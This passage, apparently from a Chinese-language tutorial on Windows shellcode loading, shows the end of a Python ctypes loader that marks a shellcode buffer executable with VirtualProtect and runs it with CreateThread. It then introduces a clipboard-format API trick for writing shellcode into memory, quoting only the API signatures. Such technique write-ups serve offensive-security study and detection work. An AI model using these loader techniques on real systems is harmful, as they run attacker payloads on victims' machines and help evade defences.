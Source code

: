 ```python
ctypes.windll.kernel32.VirtualProtect(ptr, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, ctypes.pointer(ctypes.c_int(0)))
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle), ctypes.c_int(-1))
```

![](img/6.png)

### GetClipboardFormatName+RegisterClipboardFormat

​	该方式利用剪切板函数注册剪切板格式的方式来写入`shellcode`，所用到的`API`函数是`GetClipboardFormatName`和`RegisterClipboardFormatA`。

- `RegisterClipboardFormatA`：注册新的剪贴板格式，此格式可用作有效的剪贴板格式。

```c++
UINT RegisterClipboardFormatA(
  [in] LPCSTR lpszFormat
);
```

​	该函数需要传入一个参数，用于新格式的名称。

- `GetClipboardFormatNameA`：从剪贴板中检索指定注册格式的名称，并将名称复制到指定的缓冲区。

```c++
int GetClipboardFormatNameA(
  [in]  UINT  format,
  [out] LPSTR lpszFormatName,
  [in]  int   cchMaxCount
);
```
